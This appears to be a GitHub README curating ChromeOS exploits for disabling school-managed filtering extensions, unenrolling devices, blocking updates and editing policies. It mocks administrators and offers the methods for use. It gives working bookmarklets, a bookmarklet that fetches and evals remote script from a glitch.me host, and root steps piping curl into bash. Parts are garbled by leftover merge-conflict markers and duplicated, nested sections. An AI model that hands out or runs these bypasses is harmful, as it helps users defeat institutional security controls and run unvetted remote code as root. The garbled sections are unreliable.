 # EXT-REMOVER
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destroy your computer if misused. So PLEASE, PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/3kh0/ext-remover/discussions">here</a>

Please use these only when you have permission, I (3kh0) do not condone the use of any exploits for illegal purposes!
  
**ATTENTION ALL SYS ADMINS (aka communists)!!!**

Quit your job now. If you patch any of these we will sue but theres too much to block before you get complaints about the chromebook being unusable. Have fun. 


<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan

### Thank you to all of the contributors!

Yall really are pretty epic :D

<a href="https://github.com/3kh0/ext-remover/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=3kh0/ext-remover" />
</a>

<details>
<summary><b>LTMEAT</b> Disable extensions</summary>

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

From [ltmeat.bypassi.com](https://ltmeat.bypassi.com), if you are interested in how this exploit works, check out that website.

1. Find a page belonging to the extension you want to disable. `chrome://extensions`, `chrome://extensions-internals`, and `chrome://process-internals` are all good places to find your extension's ID (a 32-character lowercase string). You can also do a simple Google search. Once you have your ID, substitute it into the hostname in the URL below:

```
chrome-extension://extensionidhereblahblah/manifest.json
```

For some filters like Securly, the block screen is already an extension page. 

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C). 
3. On the extension page (A), click the `chrome://kill` bookmark (B). The page should crash. You should already have the next step prepared. 
4. Instantly start spamming `chrome://hang` (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or `ctrl`+`R`). You should have reloaded within one or two seconds of killing the page. 

If the extension page (bookmark A) no longer loads, then LTMEAT worked! You can close your tabs, and the extension will be dead. If nothing loads, you probably reloaded too late or spammed too slowly. This isn't rocket science! Restart your computer to revert back to normal. 

Exploit made by [Bypassi#7037](https://buymeacoffee.com/bypassi), [further reading](https://ltmeat.bypassi.com)

### "Help me! I'm an idiot!"

I had far too much faith in society when making this page. Some of you skids out there are really, really stupid and also can't read. So here are the answers to some commonly asked questions. 

**How do I get an extension ID?**

Okay, fair. Extension IDs are leaked in a couple of places. Generally, the best way to get them is to go to extension settings and copy the URL query value.

**It says blocked by client?**

That's the message you get when you try to visit a page belonging to an extension that doesn't exist. The error message (`ERR_BLOCKED_BY_CLIENT`) is highly misleading. Nobody blocked it--you need to find the correct extension ID (see above).

If you got this because you tried to visit the `extension_id_here_please` example URL, you should be extremely ashamed of yourself. Please change and grow as a person. 

**I don't have a bookmarks bar!!!!**

First, try running ctrl+shift+B. If that doesn't work, go to `chrome://settings` and turn on the "home button" feature, then set it to `chrome://hang`. A home icon should appear to the right of your refresh icon in the top left. Use that instead of bookmark C.

There is a version where you don't need bookmarklets, but I am currently gatekeeping it (L). Check this site daily to see if new alternate instructions have been posted. 

**I disabled an extension, but now I can't load websites!**

If you just read the write-up, you'd know that this would happen if the extension's background page loaded and its listeners were already initialized before you used `chrome://hang`. You can double-check whether the extension is listening using `chrome://extensions-internals`, assuming you have a few brain cells in your head.

Anyway, no listeners mean you were too slow. Either you waited more than three seconds between bookmark B and reloading the page, or you needed to be spamming bookmark C faster. The most reliable fix is to restart your computer and try again. Try to match the pace of the gif below: (note the reload) 

![image](https://ltmeat.bypassi.com/img/abc.gif)

**The bookmarks don't do anything when I click them!**

Might be admin-blocked. Either be smart enough to figure out another way or check this site daily to see if new alternate instructions have been posted.

**I disabled the extension. Why is some stuff still blocked?**

I have bad news for you... not all filters are Chrome Extensions. Again, make sure the extension pages (like bookmark A) are frozen before you assume that your skiddy self successfully did the exploit. 

[Baby method for slow people](https://ltmeat.bypassi.com/alt/1.txt)

*Need more help? [Ask in the discussions](https://github.com/Nee/ext-remover/discussions)*

</details>

<details>
<summary><b>Baby LTMEAT</b> Disable extensions</summary>

**Patched On Chrome Versions 115 And Above**
  
BABY METHOD
FOR THE TECHNOLOGICALLY CHALLENGES.

1. Follow step one of the original instructions to find a page belonging to the Chrome extension you want to disable.

2. Visit that chrome-extension://blockeridhere page, then type chrome://hang in the URL bar of that tab. It should start loading infinitely.

3. Right-click the tab and duplicate it. Don't close anything.

4. Go to the chrome://extensions page for the blocker extension you want to Disable.

5. If that page has any sort of switch, such as "Allow access to file URLs", click that switch. If there are no clickable switches, cry in a corner or something.

The extension should now be broken, assuming you clicked the switch! Only one of the two duplicate tabs should be left standing. You can close your tabs now.

</details>

<details>
<summary><b>NEW LTMEAT</b> Disable extensions</summary>

  **If your Chromebook has received the 115 And Above patch on the stable channel Then Here's A New Method For LTMEAT**
  
  
**Unpatched on 115 and above**

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime
1. Create a bookmark folder and paste the extension page about 126 times.
2. Right click and open all in a new window now in that new window click open all 126 click it like 3-5 times.
3. Close the window with all those tabs.
4. Open the folder in a new window again, and Chrome should hang those tabs to take care of the old ones in the background that were just closed.
5. Go to chrome://extensions/?id=Your blocker id here flip the Allow access to file URLS button and then you've bypassed the patch and the exploit is working.
Close everything and make a new window you want to play games listen to music and yeah you're good to go. If it didn't work, try adjusting the number of tabs being opened. Bypassi should add this to his website as Alternate Method # 2. With this workaround, LTMEAT can endure a longer life!

</details>

<details>
<summary><b>Temporary LTMEAT</b> Temporarily disable extensions</summary>

**A method of using LTMEAT that does not require `chrome://` urls.
Works by using 80-150 tabs to soak up memory.**

1. Create a bookmark with the link chrome://extensions/?id=idhereidkimaskid and name it “Kill switch”.

2. Create a new bookmark folder. Name it “spam.js”. Next, paste this link into your browser: chrome-extension://insertextidhere/background.js

3. Then right-click on your folder and hit “Add Page”. Press Enter.

4. Right-click on the folder again and hit “Bookmark Manager”. You should see your page. Click on it and hit Ctrl+C. Press Ctrl+V until you have 38 of them.

5. Go to a new tab and right-click your folder. Press “Open All (38)”.

6. Repeat step 3, then click on one of the tabs from this batch. Wait until the “this page is taking too long” popup appears. This will take 30-60 seconds. If it doesn’t, do chrome://restart and go back to step 2 and add 3-4 more pages to the folder.

7. Once the popup happens, right-click on one of the tabs closest to the right of the screen and hit “Duplicate”. Then, go to your “Kill switch” bookmark and look for a switch to flip, “Allow Access to File:// urls” or something. Then, click on the leftmost extension tab (one that opened from the main.js folder) and click “Close all tabs to the right”. KEEP THIS TAB OPEN!!!

Tips: Go to chrome://settings/performance and turn Memory Saver off, and in the box where it says “Keep these sites always active,” paste in the extension URL. I’ve noticed clicking on one of the tabs from the second batch seems to help with reliability.

</details>

<details>
<summary><b>Baby LTMEAT</b> Disable extensions</summary>

**Patched On Chrome Versions 115 And Above**

BABY METHOD
FOR THE TECHNOLOGICALLY CHALLENGED.

1. Follow step one of the original instructions to find a page belonging to the Chrome extension you want to disable.

2. Visit that chrome-extension://blockeridhere page, then type chrome://hang in the URL bar of that tab. It should start loading infinitely.

3. Right-click the tab and duplicate it. Don't close anything.

4. Go to the chrome://extensions page for the blocker extension you want to Disable.

5. If that page has any switch, such as "Allow access to file URLs", click that switch. If there are no clickable switches, cry in a corner or something.

The extension should now be broken, assuming you clicked the switch! Only one of the two duplicate tabs should be left standing. You can close your tabs now.

</details>

<details>
<summary><b>LTMEAT Flood</b> Disable extensions</summary>

  **If your Chromebook has received the 115 And Above patch on the stable channel, Then Here's A New Method For LTMEAT**

**Unpatched on 115 and above**

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

1. Create a bookmark folder and paste the extension page many times. (About 800 minimum is recommended assuming your Chromebook is average school quality) It is recommended that you add the extension page at the beginning of the folder.

2. Right-click and open all in a new window.

3. Close the window with all those tabs.

4. Open the folder in a new window again, and Chrome should hang those tabs to take care of the old ones in the background that were just closed. (Equivalent to the duplicate tab step in Bypassi's method)

5. Flip the Allow access to file URLs switch in the extension settings and then you've bypassed the patch and the exploit is working.

6. Close everything, and you're good to go. If it didn't work, try adjusting the number of open tabs.


Bypassi should add this to his website as an Alternate Method # 2. With this workaround, LTMEAT can endure a longer life!

Credit to <a href="https://github.com/AshtonDavies">Ashton Davies</a> for finding this workaround

</details>

<details>
<summary><b>Baby LTMEAT Flood</b> Disable extensions</summary>

**Unpatched on 115 and above**

1. First of all, get your folder with 800+ extension page tabs and open it in a new window, for my Chromebook I used 800 extension page tabs as I feel it's the right amount for me

2. Close the newly opened Window with 800+ extension page tabs

3. Click into your folder, and open one of the extension page tabs in a new window, maybe waiting slightly longer to confirm it worked. If it loads, you did it wrong. If you see a "page unresponsive screen and a wait/exit page button," you did it right. BUT DO NOT CLICK THE EXIT PAGE BUTTON OR WAIT BUTTON. (Or if you want to do it fast, you can just see that the page always has a spinning loading circle)

4. Now go to `chrome://extensions/?id=yourblockerID`  Then scroll down and flick the "allow access to file URLs" lever and close the window with the one extension page tab remaining.

</details>

<details>
<summary><b>Print LTMEAT</b> Disable extensions with printing</summary>

1. Find your extension's largest file. This can usually be found by poking around in your extension's manifest.json.
2. Go to that page. and hit Ctrl+P. A print window should show up, with several pages in the top right.
3. Do everything you can to increase that number. Shrink down margins, change layout to landscape, anything you can. The higher you get that number, the longer the effect will last.
4. Reload. The page should start hanging.
5. Go to your extension's settings page, `chrome://extensions`.
6. Duplicate your "printing" tab, and go back to your extension's settings page.
7. Flip any switch you can find there. Usually, there'll be one titled "Allow Access to File:// [URI]s".
8. Enjoy


**Where do I find my extension's manifest.json?**
First, find your extension's ID. This is a 32-character code found on your extension's settings page, normally near or at the top. Then go to `chrome-extension://your-32-char-id-goes-here/manifest.json`

Credit to Bypassi for the original LTMEAT framework, and HUGE thanks to Swordmaster4321 for discovering that pages can be hung with printing and lots of help and suggestions.

</details>

<details>
<summary><b>LoMoH</b> Disable extensions</summary>

  **This exploit has been patched in Chrome OS 111 after being found and reported. It should have gotten admin protection sooner.**

  **About: LoMoH is a Chromebook exploit that uses the Chrome OS locked mode feature to soft disable enforced extensions (excluding Hapara Highlights if installed).**

HTML VERSION: <a href="https://tiny.cc/LoMoH">LoMoH HTML</a>

BOOKMARKLET VERSION: javascript:(function(){if (location.hostname == "docs.google.com") {document.body.innerHTML = document.body.innerHTML.replace("Locked mode is on", "Are you ready to turn off extensions?%22);%20document.body.innerHTML%20=%20document.body.innerHTML.replace(%22You%20have%20already%20opened%20and%20closed%20this%20quiz.%20Opening%20this%20quiz%20again%20will%20notify%20the%20form%20owner%20by%20email.%22,%20%22This%20will%20reload%20all%20tabs%20in%20your%20browser%22);%20var%20button%20=%20document.getElementById(%27mG61Hd%27);%20button.innerHTML%20=%20button.innerHTML.replace(%22Start%20Quiz%22,%20%22Disable%20Extensions%22);%20button.addEventListener(%27click%27,%20function(event){window.close();})}%20else%20{window.open(%22https://docs.google.com/forms/u/0/d/e/1FAIpQLSf5EYwrSUjmQhBOasMpORZy80eBCYb7qCpEwWNoRPUGyObGMA/startquiz%22);}})()

Credit to <a href="https://github.com/AshtonDavies">Ashton Davies</a> for finding this exploit

</details>

<details>
<summary><b>Dextensify</b> Disable extensions</summary>

**Dextensify is an exploit that lets you disable most admin-installed Chrome extensions from any webpage. It can be used from regular websites, HTML files, and data URLs.**

Go here and follow instructions: <a href="https://dextensify.pages.dev/main">Dextensify Main HTML</a>, or download the file here [Dextensify.html](Dextensify.html)

Made by <a href="https://ading.dev/">ading2210</a>

</details>

<details>
<summary><b>JPCMG</b> LTBEEF with Service workers</summary>

**Requirements**
- Access to `chrome://serviceworker-internals`
- Inspect element

1. Go to `chrome://serviceworker-internals`
2. Find your extension, this won't work if there's not a plugin in there.
3. Hit the start button then the `inspect` button, and execute the basic LTBEEF code
```js
chrome.management.setEnabled('<plugin id here>',false)
```
4. Profit

![image](https://user-images.githubusercontent.com/58097612/234904781-4d5ad77e-6045-435e-8aae-df12dec53013.png)

Thanks to Nyaann#3881 for this exploit
</details>

<details>
<summary><b>Corkey</b> Corrupt extensions</summary>

1. Esc+Refresh+Power and re-enroll (Enter recovery page), or you can just powerwash.
2. log into your Chromebook and immediately turn off wifi and do refresh+power to (instant restart)
3. Log back into your Chromebook with the wifi off. There should be something on the side of the connect wifi page that says log in offline or sign in as an existing user.
4. Go to chrome://extensions, turn on wifi, and wait for your school's blocking extension to appear.
5. As soon as it appears, turn off wifi and instant restart as fast as you can.
6. Log back in, go back to extensions, and wait. If it says your blocking extension could be corrupted or doesn't appear at all, then it worked (wait at least a minute with a close watch in case it comes back)
7. If it didn't work repeat from step 1.
8. If it did work, congrats you did it.

</details>

<details>
<summary><b>Extension Launcher</b> Install extensions w/o allowlist</summary>
A bookmarklet capable of installing extensions, for those without an allowlist. 

Steps: 
Go to <a href="https://extension-installer.glitch.me/code.js">here</a> bookmark the code there (Might make a DNS)
go to chrome.google.com/webstorex and use the bookmarklet, then put the icon of the extension, the id, and the name of it (This does not matter, you can put anything), then
press download, and it will work.
**Extra Notes**
- Credit to "Aka, but nice" on Discord.
- DNS will be up soon for those who have JavaScript bookmarklets blocked.
- This will not work if you have a blocklist this is only for if when you go to the web store it shows blocked

</details>

<details>
<summary><b> Point-Blank</b> Execute scripts on extension pages</summary>

This exploit allows you to execute scripts on extension pages, this is a great example of how Chromebooks are a piece of garbage.

<i>Getting started</i>
(Note: if bookmarklets are blocked you're screwed.)
1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> ([if blocked](https://raw.githubusercontent.com/Nee/ext-remover/main/newpointblank.js)) on your school chromebook.
2. Make a bookmark with the code there.
3. Once that is done,

 If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by Chrome, reload (you have to actually have Securly ofc)
 
 If you have iBoss visit <a href="https://tinyurl.com/goofboss">here</a>.
For Cisco Umbrella, visit <a href="https://tinyurl.com/goofumbrella">here</a>.
 
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a>.
 
 And if you have GoGuardian (might not work), go to <a href="https://tinyurl.com/goofguardian">here</a>. 
 
 Now most of these links are a block page(this is intentional) each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript running on it, so running your own code may not work.
 
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by me, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

</details>

<details>
<summary><b>UBoss</b> Tamper with IBoss</summary>

By the BlueHatCrew
https://dsc.gg/blue-hat-crew

This works only for iBoss, and Blocksi, If you don't have one of these, use New Point Blank.

1. Go to https://tinyurl.com/byeswamp if you have iBoss or https://tinyurl.com/blockboss if you have Blocksi.
Then bookmark the code below
```js
javascript:opener.eval(`fetch("https://rounded-boiling-flax.glitch.me/uboss.js").then(data=>{data.text().then(e=>{eval(e)})})`) && close();
```
2. Then go to the site with your blocker that was listed above.
3. Run the code. Follow the instructions there.

If it doesn't work let us know by creating a discussion, this was made in partnership with Aka, but nice#5094 and Bypassi#7037.

</details>

<details>
<summary><b>CAUB</b> Prevent Updates</summary>

This exploit keeps your Chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your Chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school-issued Chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifi that you've connected to in the past.
3. Click the `+` sign next to the wifi name of each network that you commonly connect your Chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox below.
8. Press the `generate onc` button below the textbox.
9. Once you have downloaded the file, go to `chrome://network#general`.
10. Click on the `import ONC` button.
11. Import the newly-downloaded file.

**Extra notes**
- Your Chromebook will no longer automatically update. (as long as you are on a wifi that you CAUBed)
- Be careful not to stay on wifi for too long without using CAUB on it, otherwise, you might update.
- We cannot guarantee that this will work on every wifi

</details>

<details>
<summary><b>CAUB via Flags</b> Prevent Updates</summary>

This alt exploit keeps your Chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by <a href="https://github.com/MechaXYZ">MechaXYZ</a>. Using a Chrome flag, you can convince your Chromebook not to automatically update.

<details>
<summary><b>CAUB via Flags</b> Prevent Updates</summary>

This alt exploit keeps your Chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by <a href="https://github.com/MechaXYZ">MechaXYZ</a>. Using a Chrome flag, you can convince your Chromebook not to automatically update.

<i>Getting started</i>

1. Go to `chrome://flags#show-metered-toggle` or search "metered" in `chrome://flags` instead
2. Enable it and restart your device
3. Go to your network >> Advanced >> Show metered toggle and turn it on

**Extra notes**
- Your Chromebook will no longer automatically update.
- Chrome://flags must not be blocked by your school otherwise, this exploit will not work
- And you must be able to enable flags if it ain't blocked otherwise, this exploit won't work

</details>

<details>
<summary><b>LTBEEF inspect</b> Using inspect to disable extensions</summary>

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on `108.0.5359.75` (Official Build) (64-bit) on the stable channel. This has been tested and does work but has varying levels of success, you will need access to inspect element, more specifically, console.

1. Open this on your chromebook: 
```
chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json
``` 
Shortened link: https://tinyurl.com/i-ltbeef
2. Open inspect and navigate to the console tab.
3. Run the basic LTBEEF code such as
```js
chrome.management.setEnabled('extensionid', false)
```
Replacing `extensionid` with the ID of the extension you want to disable, e.g. the stuff after the = in the URL bar when you click the extension's "details" button in chrome://extensions

Credit to SprinkzMC#8421 (aka Bypassi) for finding this!
=======
<i>Getting started</i>
>>>>>>> main

1. Go to `chrome://flags#show-metered-toggle` or search "metered" in `chrome://flags` instead
2. Enable it and restart your device
3. Go to your network >> Advanced >> Show metered toggle and turn it on

**Extra notes**
- Your Chromebook will no longer automatically update.
- Chrome://flags must not be blocked by your school otherwise, this exploit will not work
- And you must be able to enable flags if it ain't blocked otherwise, this exploit won't work

</details>

<details>
<summary><b>Point Blank</b> Run code on system pages</summary>

Point Blank is an exploit that allows you to run bookmarklets on privilaged pages, sutch as the chrome extentions page. This exploit was also found by Bypassi, you can read more about how he discovered this exploit <a href="https://blog.bypassi.com/_/point-blank/"></a>

You can either use the prompt or the gui the prompt is below

1. Bookmark this code:

```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```

And the gui is in launcher.js

2. Navigate to `chrome://extensions`.

3. Click on a extension that YOU installed from the Chrome Web Store > Details.

4. In the URL bar, copy the string of letters and numbers after the `/?id=`.

5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet.

5. Paste the id of the extension into the prompt or input box seperated by commas.

If you close the tab, the exploit will stop working.

</details>

<details>
<summary><b>Blank3r</b> Reload extensions continuously</summary>

Blank3r is an exploit that allows you to run bookmarklets on privileged pages, such as the Chrome extensions page. This exploit was made with Point Blank as well.

The exploit code is below.
1. Bookmark this code:

```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```

And the GUI is in launcher.js

2. Navigate to `chrome://extensions`.

3. Click on an extension that YOU installed from the Chrome Web Store > Details.

4. In the URL bar, copy the string of letters and numbers after the `/?id=`.

5. Click "View in Chrome Web Store" and spam the escape key. If it loads into Chrome Webstore try again, if it is a blank screen click the bookmarklet.

5. Paste the ID of the extension into the prompt separated by commas.

If you close the tab, the exploit will stop working.

</details>

<details>
<summary><b>sh1mmer</b> Unenrollment</summary>  
sh1mmer is an exploit developed by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  

Further information is now located at these links:

[Official Repository](https://github.com/CoolElectronics/sh1mmer)  
[Official Website (INSTRUCTIONS)](https://sh1mmer.me/)  
[Raw Shims Download](https://files.ultimatesrv.com/)  
[Wax4Web Shim Builder](https://build.ultimatesrv.com/)
</details>

<details>
<summary><b>Downgrading</b> Change versions</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, such as LTBEEF. This is a built-in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4GB of storage, some boards have small or bigger images, I recommend 16GB
2. A personal computer with access to downloading extensions
3. A brain
If you do not have these, you **CAN NOT** perform the exploit!

<i>Setup</i>
1. Navigate to `chrome://version` on the Chromebook you wish to downgrade and check for your board under `Platform` (ex I have a c3100 and its board is stable-channel octopus).

<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">

2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board.
3. Find and download the Chrome version you want to your personal computer.

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer. (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">chrome.google.com/webstore/detail/Chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm</a>
2. Open the extension, click on the settings button in the top right-hand corner, and click "use local image".
3. Select the recovery image you downloaded from chrome100.
4. Plug in the USB you wish to use, and follow the prompts on the screen.
5. On your Chromebook, press esc+reload+power and follow the prompts.
6. On the checking for updates screen, press `ctrl`+`shift`+`e` to skip the "checking for updates" screen.
7. Profit.

</details>

<details>
<summary><b>E-Halcyon</b> Unenrollment Or Downgrade</summary>

First of all, you'll need a Linux PC or VM. WSL is not guaranteed to work.

Now, you'll need to boot into SH1MMER, and press the Un-Enroll option. It won't truly unenroll you if you've received the 112 updates patching unenrollment and downgrading, but it is still a necessary step for the rest of this. If you've never used SH1MMER before or don't have an image lying around, make sure to follow all the instructions on sh1mmer.me for unenrollment before proceeding with the rest of the tutorial here

Next, you need a version 107 recovery image corresponding to your board, which you can pick up from chrome100.dev. Once you've downloaded the right image for your board and have confirmed it's for version 107, unzip it and save it to a safe place. Now open up a terminal and type in the following commands (make sure to replace /path/to/recovery/image.bin with the actual path)

```
git clone https://github.com/MercuryWorkshop/RecoMod
cd RecoMod
chmod +x recomod.sh
sudo ./recomod.sh -i /path/to/recovery/image.bin --halcyon --rw_legacy
```

The script will modify the image in place, and it can now be flashed with a standard recovery tool onto a USB of your choice.

Enable developer mode and get to the dev mode block screen similarly to how you would with SH1MMER, then plug in the USB. The recovery screen will show up, and at this point, you need to start spamming the E key on your keyboard. It will begin a 5-minute wait sequence, and near the end of the 5 minutes start spamming E again. You will only have to wait 5 minutes once, subsequent boots will have the 5-minute wait omitted

The boot splash will show, and you will enter a special menu. Use arrow keys to navigate the cursor down to "activate halcyon environment" and press enter. Then navigate down to "Install halcyon semi-tethered" and wait for it to finish. Once it's finished, go back to "activate halcyon environment" and press "Boot halcyon semi-tethered". and you will be booted into a downgraded and unenrolled ChromeOS environment.

FAQ:
How does this work?
See the writeup for more information

Can the admins see that I'm doing this?
No.

Why don't my history/cookies/etc save after a reboot?
Unfixable restriction of cryptohome. See the writeup for more information

Why is my Chromebook "Missing or damaged?"
After installing E-Halcyon, you won't be able to boot Chrome OS normally. You'll have to keep the USB around to jumpstart the booting process

Where do I report bugs?
The RecoMod GitHub

Why does it say "E mode not activated" when I try to boot halcyon?
You spammed the E key when starting at the wrong time, or not at all

Credits:
CoolElectronics - RecoMod, working switch_root, and everything else
OlyB - Insight and contributions to the RecoMod script
vk6 - Created this website

</details>

<details>
<summary><b>Extension Inactivity hack</b> Inactive Extensions</summary>

1. First, do the Esc+Refresh+Power
2. Press ctrl+d, then enter
3. Will give you some bullcrap about dev mode being blocked press enter then you will go to a newly powerwashed Chromebook
4. Next, add wifi
5. Then sign into your account
6. Immediately turn wifi off before extensions load
7. Go to `chrome://settings/signOut`
8. Click turn off sync and personalization and then turn wifi back on go to whatever site that is extension blocked.

1. Workaround for chrome://settings/signOut if patched: If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` and click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
2. Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps or just flip off everything except for bookmarks

Note: Before you do any of this do it at home so that way you don't have to worry about asking for the school wifi password.

</details>

<details>
<summary><b>New TUA</b> Temporarily Unblock Any Website</summary>

**Might Be Patched on 115 And Above**
  
1. go to the chrome-extension://blockeridhere/manifest.json page.

2. go to a new tab page and type in the URL Website you want to unblock. don´t go into that website yet just leave it inside the URL Box.

3. go back to chrome-extension://blockeridhere/manifest.json now create a bookmark called E. now click more and In the URL Box you put chrome://kill. now save that bookmark.

4. create another bookmark called D. click more In the URL Box copy and paste
   ```
   javascript:(function () {window.onbeforeunload = function() { return 1; };})()
   ```
  Into that URL Box and save that bookmark.

6. go back to chrome-extension://blockeridhere/manifest.json page and now click bookmark B. then quickly go back to the new tab page and click enter. now quickly spam bookmark D like 2 or more times now there should be a pop up called "do you want to close this page?" click cancel. now boom that website is unblocked until you turn off your chromebook or until you exit out of that website. then if that happen´s your gonna have to do all the steps again.

  Easier way for step 2: instead of putting the URL in the new tab box go to chrome-extension://blockeridhere/manifest.json page. then click Bookmark E then go to a random website. then use the javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1)) Bookmarklet. then spam Bookmark D two or more times then a pop up should appear. quickly click cancel now boom all done.    Name of Bookmarklet > Unblock Website: javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))

Note: Save chrome-extension://blockeridhere/manifest.json as a bookmark so you don´t have to come back here and type in the URL thing.

IMPORTANT NOTE: if bookmarklets are blocked your screwed, womp womp

</details>

<details>
<summary><b>Old TUA</b> Temporarily Unblock Any Website</summary>

1. Make a bookmark called tab close blocker. now click more on the bottom left corner. now in that URL BOX put in `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`
2. Go to a new page. now go into the URL BOX on the top and put https://YOUR WEBSITE HERE. do not click enter yet stay in that URL BOX.
3. Do search+esc now which should open task Manager. if search+esc doesn't work then click the three dots on the top right. now and scroll down until you find more tools click that and find task Manager.
4. Find your blocker extension and click it. now on the bottom right you should see a button called End process. click it now quickly click the URL BOX on the new page and click enter. now quickly spam the bookmark tab close blocker. now a pop up should come up it should have to buttons cancel and leave. click cancel.

IMPORTANT NOTE: You can not do this exploit if bookmarklets or the task manager is blocked. womp womp
</details>

<details>
<summary><b>Enterprise Enrollment Glitch</b> Unenroll/Bypass Enterprise Enrollment</summary>

This only works on Chrome versions 115 and above, and your school has not to have force enterprise enrollment on your school Chromebook

1. Powerwash your Chromebook

A) esc+refresh+power

B) then "ctrl"+"d" and then space or enter

2. Then add wifi
3. Now when it takes you to the enrolling screen or whatever immediately turn off wifi, then wait until it says enterprise enrollment has failed or something like that
4. There should be 2-3 buttons to use as a personal device and enroll manually and try again
5. Click use as a personal device, then add back wifi and then sign in and boom Unenrollment worked

If it doesn't work then your screwed, womp womp

</details>

<details>
<summary><b>Fakemurk</b> Trick your Chromebook into being in developer mode while being enrolled in your school's profile.</summary>

**Fakemurk is a script that can run in developer mode to trick your Chromebook into being in developer mode while being enrolled in your school's profile. You can use this to disable any extension, as well as have full access to the Chrome web store and Google Play store. This provides a personal Chromebook-like experience while still being enrolled.**

Go here and follow instructions: <a href="https://docs.google.com/document/d/1Pku_CbEG9SwQtnm0I188RtpdpW8nXQhiNdMp8PN7Mik/edit?pli=1">Fakemurk Doc</a>

</details>

<details>
<summary><b>Pollen</b> Chrome OS User Policy Editor</summary>

How To Use

- Normal
  - Note: Devmode **NEEDS** to be enabled.
  - Open Crosh
  - Run `shell`
  - Run `sudo su`
  - Run `curl -Ls https://mercuryworkshop.github.io/Pollen/Pollen.sh | bash`
  - Done! It may take a few seconds for the new policy to apply. If it does not apply, press `alt+vol_up+x`.
- PollenFS (RootFS)
  - Note: Disabling RootFS **will** Soft-Brick your Chromebook when booting back into normal mode.
  - Note II: Devmode **NEEDS** to be enabled.
  - Open Crosh
  - Run `shell`
  - Run `sudo su`
  - Run `curl -Ls https://mercuryworkshop.github.io/Pollen/RootFS.sh | bash`
  - Reboot
  - Go Through Steps 1-3 Again
  - Run `curl -Ls https://mercuryworkshop.github.io/Pollen/PollenFS.sh | bash`
  - Done! Your Pollen configuration is now permanently applied!

